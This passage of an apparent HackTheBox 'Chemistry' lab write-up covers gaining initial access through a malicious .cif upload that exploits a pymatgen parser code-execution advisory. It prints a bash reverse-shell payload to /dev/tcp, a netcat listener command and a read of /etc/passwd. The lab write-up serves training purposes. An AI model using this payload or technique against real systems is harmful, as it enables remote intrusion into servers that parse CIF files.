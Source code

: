 Tried common credentials (`admin:admin`, `root:root`, etc.) without success.:

![login_invalid_credentials](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/login_invalid_credentials.png)

Registered a new account:

![register](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/register.png)

Once logged in, the dashboard allows uploading `.cif` files — suggesting potential **file parsing vulnerabilities**.

![dashboard_upload](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/dashboard_upload.png)

---
### 2.2 Upload Functionality

The application accepts only `.cif` files and provides a sample in **here** button:

![cif_example](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/cif_example.png)

Researching CIF file parsing, we found a security advisory for `pymatgen` CIF parser:  
[GHSA-vgv8-5cpj-qj2f](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f) — **Arbitrary Code Execution** vulnerability.

We crafted a malicious `.cif` file containing a reverse shell payload:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.3/9090 0>&1'
```

![rs_cif](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/rs_cif.png)

Started a listener:

```bash
nc -lnvp 9090
```

Uploaded the malicious file and clicked **view**.

![rs_uploaded](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/rs_uploaded.png)

![nc_9090](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/nc_9090.png)

Reverse shell obtained.

---
## 3. Foothold

Enumerating the system:

```bash
cat /etc/passwd
```

![etc_passwd_app](GitHubv2/HackTheBox/EASY/Chemistry/screenshots/etc_passwd_app.png)
